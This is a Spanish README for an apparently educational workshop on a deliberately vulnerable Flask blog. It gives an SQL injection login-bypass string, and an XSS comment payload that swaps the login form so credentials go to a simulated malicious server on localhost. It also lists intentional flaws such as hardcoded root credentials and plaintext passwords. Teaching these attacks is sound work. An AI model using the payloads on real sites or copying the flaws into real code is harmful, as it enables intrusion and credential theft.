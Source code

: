 # TallerCiberseguridad

Este taller pretende mostrar con ejemplos algunas técnicas usadas para explotar debilidades de seguridad, concretamente en qué consiste el **SQLInjection** y el **Cross Site Scripting**.

# Advertencia:

Con la finalidad de mostrar estos datos, hemos recurrido a varias irregularidades en el código, como pueden ser:

* No escapar el texto que nos llega en una petición (a través del cual luego haremos **XSS**).
* Componer la query **SQL** concatenando textos, en lugar de hacer uso de los **prepared statements**.
* No estamos cifrando las claves de los usuarios en las bases de datos.
* La conexión a la base de datos hace uso de usuario y contraseña, hardcodeados en el código.
* Hemos subido a un repositorio público el **secret** de nuestra aplicación.

# Dependencias

Vienen indicadas en el fichero **requirements**, son los módulos **flask** y **pymysql**. Puedes instalarlos con **pip**

```bash 
pip install flask
pip install pymysql
``` 

# Preparación

Se necesita una base de datos MySQL en local, con usuario **root** con contraseña **root** (podemos usar otra base de datos y/o usuario, contraseña, siempre que lo modifiquemos en el código), sobre la que ejecutaremos el siguiente código:

```sql
create database usuarios;
use usuarios;
create table usuarios (email varchar(64), clave varchar(32), created timestamp default CURRENT_TIMESTAMP, primary key (email));
insert into usuarios (email, clave) values ('misterio@raro.sa','123abc');
insert into usuarios (email, clave) values ('vegeta@gmail.com','777');
``` 

# Desarrollo

## 1- Levantar el servidor 

Ejecutamos el proceso **ServerBlog.py**. Para ello la base de datos debe estar corriendo.

## 2- Mostrar la página

Se muestra el uso general de la página, que obliga a hacer login para poder publicar comentario.

Existen dos usuarios, usaremos el usuario **vegeta@gmail.com** con contraseña **777** para mostrar que se puede publicar un comentario.

## 3- Ahora nos saltamos la seguridad

Posteriormente nos conectaremos como otro usuario cuya contraseña (supuestamente) no conocemos, el usuario **misterio@raro.sa** y como contraseña realizaremos el **SQLInjection**. Para ello escribiremos lo siguiente como contraseña:

**OJO**: es importante dejar un espacio detrás del **--**, por eso añadimos un apóstrofe, para evitar que no copiéis el espacio.
```sql
' or 1=1  -- '
``` 

## 4- Y ahora nos toca robar datos

Ejecutamos el segundo servidor, **fakeServer.py**. Esto simula ser un servidor maligno creado para robar datos.

Nos autenticamos usando lo visto en el punto anterior, y añadimos un comentario haciendo uso de una vulnerabilidad de *XSS*.

```html
<script type="text/javascript">
var temp = document.getElementById("loginFrame");
delete temp.src;
temp.srcdoc='<!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <title>Cutre Login</title></head><body><form action="http://127.0.0.1:5005/validateLogin" id="formLogin" method="POST">  <label for="user">user:</label>  <input type="text" id="user" name="user"><br><br>  <label for="pass">pass:</label>  <input type="password" id="pass" name="pass"><br><br>  <input type="submit" value="Submit"></form></body></html>';
</script>
``` 

Al hacerlo, sin que se vea en el código fuente, hemos cambaido el formulario de login, para hacer que apunte a nuestro servidor maligno. 

Intentamos logarnos con unos datos cualquiera, y mostramos cómo el servidor maligno ha capturado los datos.



